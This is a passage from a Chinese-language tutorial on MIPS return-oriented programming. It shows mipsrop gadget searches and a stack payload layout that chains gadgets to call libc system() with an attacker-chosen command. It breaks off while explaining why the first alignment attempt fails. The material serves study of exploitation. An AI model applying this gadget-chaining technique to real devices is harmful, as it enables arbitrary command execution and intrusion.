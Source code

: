 然而，为了满足要求，使我们能够将 $a0 改变器和 stack-caller 跳转到堆栈上的其他 gadget，只有 0x0001B014 这个 gadget 能够按我们预期的方式工作！它首先将寄存器 $s4 的值移动到 $t9，然后跳转到堆栈地址 0x1C+var_s18($sp) ($sp + 0x1C + 0x18)，该地址将存储先前的 a0_EQ_sp24_c_JR_24sp。  
  
然而，在触发 0x0001B014 之前，还需要寻找对 $s4 寄存器的操作；这相对容易一些，因为 $s4 是堆栈控制中非常常见的中间寄存器；我们将继续使用 mipsrop.find() 找到符合 mipsrop.find('.* $s4') 的 gadgets，因为 $s4 是被操作的寄存器：  
```
Python>mipsrop.find('.* $s4')
----------------------------------------------------------------------------------------------------------------
|  Address     |  Action                                              |  Control Jump                          |
----------------------------------------------------------------------------------------------------------------
# 70 lines that fits our requirement....
|  0x0007E8C8  |  lw $s4,0x38+var_s10($sp)                            |  jr    0x5C($sp)                       |
|  0x0007EB5C  |  lw $s4,0x44+var_s10($sp)                            |  jr    0x5C($sp)                       |
----------------------------------------------------------------------------------------------------------------

```  
  
这次 mipsrop.find 为我们返回了大量的 gadgets！幸运的是，这些都包含了 stack-caller gadgets，比如 jr 0x5C($sp)，还允许我们通过 $sp 控制 $s4，如 0x38+var_s10($sp)；这次，我们将简单地选择一个看起来不错的，同时在堆栈上留有更多空间，地址冲突更少的 gadget，比较 0x0007EB5C，0x0007E8C8 给我们留下了额外的空间*((0x44+0x10)-(0x38-0x10)=0x2c)*给 $s4（对于 $s4 来说并不重要）。  
  
现在，我们可以通过 $s4 控制 $t9，它来自 0x44+var_s10($sp)，将作为 gadget0 通过 ret_addr 设置；我们现在可以指定 jr 地址为 move $t9,$s4，jr 0x1C+var_s18($sp) 指向 addiu $a0,$sp,0x24+var_C，它将从 sp+0x24+0xC 获取 $a0，然后 jr 到 0x24+var_s0($sp) 指向的地址。  
  
现在，我们可以构建有效载荷，如下所示：  
```
+------offset------+------value---------------------------------------+ <|-- g0
|     ret_addr     |  lw $s4,0x38+var_s10($sp) + jr 0x5C($sp))        | ---
|------------------+--------------------------------------------------|   |
|     $sp+0x24     |  libc_base + system()                              |   |
|------------------+--------------------------------------------------|   | g1
|     $sp+0x30     |  command_for_$a0                                  |   |
|------------------+--------------------------------------------------|<|-|---
|     $sp+0x34     |  addiu $a0,$sp,0x24+var_C + jr 0x24+var_s0($sp)  |   |  |
|------------------+--------------------------------------------------|   |  |
|     $sp+0x48     |  #s4_content                                      |   |  | g2
+------------------+--------------------------------------------------|<|-|  |
|     $sp+0x5C     |  move $t9,$s4 + jr 0x1C+var_s18($sp)              |-------
+------------------+--------------------------------------------------+

```  
#### 试验 3：邪恶的 $sp  
  
现在，如果我们简单地使用之前通过 cyclic 获取的 sp_offset 将这些 gadgets 和操作数据在堆栈上对齐，你会发现一个非常有趣的现象：它根本不起作用！但为什么呢？让我们回顾一下之前收集的这些 gadgets。看看我们之前和现在的第一个 gadget，我们的 return_addr 将直接指向，除了我们看到的 lw $s4,0x44+var_s10($sp); jr 0x5C($sp) 部分，实际上还有一个隐藏部分。  
  